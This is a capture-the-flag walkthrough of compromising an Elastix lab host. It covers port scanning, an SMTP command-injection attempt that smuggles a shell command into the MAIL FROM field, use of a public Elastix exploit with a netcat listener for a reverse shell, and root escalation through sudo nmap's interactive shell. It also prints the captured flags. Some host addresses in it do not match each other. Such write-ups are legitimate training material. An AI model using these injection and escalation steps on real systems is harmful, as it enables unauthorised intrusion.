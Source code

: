 # Recon
The researcher started out with a scan of the host (10.10.10.3) using naabu<sup>1</sup>
```naabu -host 10.10.10.7 -p - -c 500 -nmap-cli 'nmap -sV -sC -n -Pn -oN active-hosts' -o naabu.txt```

|Status|IP|Port| Status | IP | Port |
| -----|--|----------- | --- | -- | ---| 
| open | 10.10.10.7 | 22 | open | 10.10.10.7 | 993 |
| open | 10.10.10.7 | 25 | open | 10.10.10.7 | 995 |
| open | 10.10.10.7 | 80 | open | 10.10.10.7 | 995 |
| open | 10.10.10.7 | 110 | open | 10.10.10.7 | 3306 |
| open | 10.10.10.7 | 111 | open | 10.10.10.7 | 4190 |
| open | 10.10.10.7 | 143 | open | 10.10.10.7 | 4445 |
| open | 10.10.10.7 | 443 | open | 10.10.10.7 | 4559 |
| open | 10.10.10.7 | 878 | open | 10.10.10.7 | 5030 |
| open | 10.10.10.7 | 10000 |

# User enum
<details>
    <summary>PORT 22 OpenSSH 4.3</summary>
    <p>Moving on from this one until creds are found.</p>
 </details>
 <details>
    <summary>PORT 25 Postfix smtpd</summary>
    <p> 
    smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
    Attempted to find the ver of the service but I was not able to.
    Then tried a quick manual test to see if RCE was possible. 

```
HELO x 
MAIL FROM:<;ping -c 4 192.168.49.161;> 
RCPT TO:<root> 
DATA 
<enter> 
vry4n 
. 
QUIT

```
This did not work. 
</p>
</details>
<details>
    <summary>PORT 80 http</summary>
    <p>Port 80 redirects to 443.</p>
 </details>
 <details>
    <summary>PORT 443 https</summary>
    <p>Going to https://10.10.10.7 I found a elastix sign in page.
    I tried some defult creds root:root, admin:admin, and elastix: elastix and all failed.
    Next I used google search and found an exploit 18650.py<sup>2</sup> 
    After updating the RHOST, LHOST, AND PORT I started a nc listener.
    
```
    nc -nlvp 4444
``` 
and ran the script, 
```
python2.7 18650.py 
```
but failed to get a call back. 
after some research I found a suite of VoIP tools that could be used to find an open extention since ext 1000 was not working. 
I downloaded sipvicious<sup>3</sup>. From the sipvicious wiki<sup>4</sup> I was able to find the proper commend 

```
./svwar -m INVITE 10.0.0.1
```
The command returned an open ext 233.  I again updated my 18650.py with the new ext and ran it again, this time I did get a call back.
Looking at the exploit there was a way to upgrade to admin right away. The user needed to run

```
sudo nmap --interactive

```
then 

```
 !sh 
```
Since I was root I went a head and got both flags. 
USER FLAG:5be8f535cdf2b007b64885bf766db5d6
ROOT FLAG:a874a4316d949910a7fe32ca0da02907
 </p>
 </details>

 <p>No other ports were needed.</p>
 



REF
1. https://github.com/projectdiscovery/naabu
2. https://www.exploit-db.com/exploits/18650
3. https://www.kali.org/tools/sipvicious/
4. https://github.com/EnableSecurity/sipvicious/wiki/SVWar-Usage

